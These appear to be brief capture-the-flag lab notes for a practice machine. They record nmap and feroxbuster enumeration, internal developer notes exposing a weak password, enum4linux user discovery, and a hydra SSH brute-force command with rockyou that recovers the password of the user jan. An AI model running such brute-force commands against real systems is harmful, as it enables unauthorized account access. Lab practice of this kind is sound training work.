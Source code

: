 # 2022-06-18
# gryNet


NMAP 10.10.119.124
$ 80

feroxbuster -u http://10.10.119.124/ -w /usr/share/wordlist/dirbuster/directory....
/development

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

enum4linux
> kay
> jan

# brute-ssh
hydra -l jan -P /usr/share/wordlist/rockyou.txt

jan:armando	
ssh


